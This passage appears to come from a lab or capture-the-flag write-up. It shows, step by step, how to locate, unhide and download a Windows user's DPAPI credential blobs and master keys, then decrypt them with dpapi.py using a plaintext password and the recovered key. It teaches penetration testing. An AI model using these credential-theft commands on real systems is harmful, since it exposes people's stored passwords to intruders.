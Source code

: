 We need to obtain the files and transfer them to our machine.

+ Download DPAPI-protected blobs:
    To find the DPAPI-protected blobs
    ```powershell
    Get-ChildItem -Hidden C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials\
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*MhXgJK6MphNXB8y-XL5CNA.png)
    These files are hidden, so we need to change the file permissions to be able to download them
    ```powershell
    Set-ItemProperty -Path "C:\Users\C.Neri\AppData\Roaming\microsoft\credentials\C4BB96844A5C9DD45D5B6A9859252BA6" -Name Attributes -Value ([System.IO.FileAttributes]::Normal)
    ```
    You can download them directly if you’re using Evil-WinRM or the Meterpreter shell
    ```powershell
    cd C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials
    download C4BB96844A5C9DD45D5B6A9859252BA6
    ```
    If you're using a limited shell, you can use Netcat, `Invoke-WebRequest`, or create an SMB server and copy the files there.

+ Download Master Keys:

    To retrieve the master keys:
    ```powershell
    Get-ChildItem -Hidden C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*d2tknEghRxZmbVzj6NHgrQ.png)
    Download both files to check them. To change the file permissions:
    ```powershell
    Set-ItemProperty -Path "C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115\99cf41a3-a552-4cf7-a8d7-aca2d6f7339b" -Name Attributes -Value ([System.IO.FileAttributes]::Normal)
    ```
    Then, download the files
    ```powershell
    cd C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115
    download 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
    ```
    After that we could crack these files locally

+ Decrypt the Master Key

    ```bash 
    dpapi.py masterkey -file 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b -sid S-1-5-21-4024337825-2033394866-2055507597-1115 -password Zer0the0ne
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*MLVREjYySDRxQ-xIWpKTog.png)
+ Decrypt the DPAPI Blob

    ```bash 
    dpapi.py credential -file C4BB96844A5C9DD45D5B6A9859252BA6 -key 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a    
    ```
    ![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*GKEUWwh7aD49A7B1Co-LRg.png)

